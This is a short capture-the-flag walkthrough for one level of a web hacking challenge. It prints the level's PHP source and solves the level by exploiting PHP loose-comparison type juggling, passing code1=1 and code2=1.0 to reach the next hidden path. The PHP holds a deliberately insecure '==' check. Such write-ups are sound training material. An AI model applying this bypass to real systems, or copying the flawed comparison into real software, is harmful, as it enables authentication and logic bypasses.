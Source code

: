 # Level-18

Level18-19 (https://matrix.voorivex.academy/dangEr-level-100)

send this request:

```text
https://matrix.voorivex.academy/dangEr-level-100?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

function compareStrings($str1, $str2) {
    if (strlen($str1) != strlen($str2)) {
        return false;
    }

    $length = strlen($str1);
    for ($i = 0; $i < $length; $i++) {
        if ($str1[$i] != $str2[$i]) {
            return false;
        }
    }

    return true;
}

$code1 = $_GET['code1'];
$code2 = $_GET['code2'];

if (compareStrings($code1, $code2) != true) {
    if ($code1 == $code2) {
        require_once('next.php');
        die($next);
    }
}

?>
```

it is using type juggling in this line :
```php
if ($code1 == $code2)
```

we must give it two parameter which are different in string length but equal in math
something like `1` and `1.0` so send this request :

```text
https://matrix.voorivex.academy/dangEr-level-100/?code1=1&code2=1.0
``` 

you will get this :

```text
/m0re-dangeR-needed
```

go to :

```text
https://matrix.voorivex.academy/m0re-dangeR-needed
```
